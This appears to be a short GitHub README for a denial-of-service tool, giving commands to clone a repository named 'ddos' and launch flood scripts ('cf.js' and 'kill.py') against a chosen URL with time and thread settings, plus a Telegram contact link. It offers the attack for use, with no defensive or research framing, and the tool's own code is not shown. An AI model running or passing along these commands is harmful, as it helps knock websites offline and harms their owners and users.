 # language : Python + Java

# By I'm Rith X NDT SEC 

# Working environment: linux & Termux
Commands:

1<code> git clone https://github.com/angkerithhack001/ddos.git</code>

2<code> cd ddos</code>

3<code> chmod +x ddos</code>

4<code> node cf.js url time threads </code>

# USE PYTHON 
1<code> python kill.py url time sned </code>

#### Follow me

[Telegram](https://t.me/angkerith)

